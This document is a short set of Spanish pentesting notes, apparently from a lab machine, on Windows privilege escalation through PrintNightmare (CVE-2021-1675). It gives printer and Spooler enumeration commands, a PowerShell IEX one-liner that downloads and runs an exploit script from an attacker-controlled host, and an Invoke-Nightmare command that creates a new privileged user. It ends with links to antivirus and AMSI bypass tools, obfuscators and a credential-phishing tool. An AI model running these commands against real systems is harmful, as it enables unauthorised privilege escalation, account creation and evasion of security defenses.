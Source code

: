```bash
wmic printer list brief

Get-Printer | Format-Table

```

verificacion del servico de impresoras:

```bash
rpcdump.py @10.10.11.106 | grep MS-RPRN
```

```bash
Powershell.exe Get-Service Spooler
```

usar el printnightmare LPE:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.139:8000/CVE-2021-1675.ps1')
```

con esto cargaremos todo el script en memoria y lo podremos usar:

```bash
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"
```

## SHARP COLLECTION

[Sharp Collection](https://github.com/Flangvik/SharpCollection)

[https://deephacking.tech/como-compilar-un-archivo-sln-windows/](https://deephacking.tech/como-compilar-un-archivo-sln-windows/)

[https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master/PowerSharpBinaries](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master/PowerSharpBinaries)

## BYPASS DE PROTECCIONES

[https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader)
[https://github.com/Genetic-Malware/Ebowla](https://github.com/Genetic-Malware/Ebowla)
[https://github.com/tokyoneon/Chimera](https://github.com/tokyoneon/Chimera)
[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
[https://github.com/tokyoneon/CredPhish](https://github.com/tokyoneon/CredPhish)
[https://github.com/klezVirus/chameleon](https://github.com/klezVirus/chameleon)
[https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
[https://github.com/S3cur3Th1sSh1t/Get-System-Techniques](https://github.com/S3cur3Th1sSh1t/Get-System-Techniques)
[https://github.com/juliourena/SharpNoPSExec](https://github.com/juliourena/SharpNoPSExec)

[https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp](https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp)
